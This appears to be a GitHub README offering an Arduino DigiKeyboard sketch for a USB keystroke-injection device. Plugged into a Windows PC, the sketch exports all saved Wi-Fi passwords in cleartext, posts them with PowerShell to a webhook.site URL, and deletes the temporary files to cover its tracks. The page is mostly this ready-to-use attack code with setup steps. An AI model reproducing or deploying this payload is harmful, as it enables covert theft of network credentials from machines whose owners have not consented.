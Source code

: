 # Wi-Fi Password Exporter using webhook.site

This Arduino sketch uses the DigiKeyboard library to automate the process of exporting saved Wi-Fi passwords and sending them to a webhook.site
Applies for Windows10 % Windows11

## Steps

1. First go to
   ```bash
   https://webhook.site
   ```
2. Copy `Your unique URL` to below code
3. After executing below code using USB Rubber Ducky, You will receive Wi-Fi Passwords to `https://webhook.site`

## Code

```cpp
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 // Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); // LED on Model A

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // run
  DigiKeyboard.delay(2000);
  
  DigiKeyboard.println("cmd"); // smallest cmd window possible
  DigiKeyboard.delay(4000);
  
  DigiKeyboard.println("cd %temp%"); // going to temporary dir
  DigiKeyboard.delay(2000);
  
  DigiKeyboard.println("netsh wlan export profile key=clear"); // grabbing all saved wifi passwords 
  DigiKeyboard.delay(2000);
  
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); // Extracting all password
  DigiKeyboard.delay(2000);
  
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/1e9ac684-9190-4dc5-a74f-2184d868f4de -Method POST -InFile Wi-Fi-PASS"); // Submitting passwords to webhook
  DigiKeyboard.delay(2000);
  
  DigiKeyboard.println("del Wi-* /s /f /q"); // cleaning up all the mess
  DigiKeyboard.delay(7000);
  
  // DigiKeyboard.println("exit"); // Uncomment to exit cmd
  // DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); // turn on LED when program finishes
}

void loop() {
  // No loop needed
}
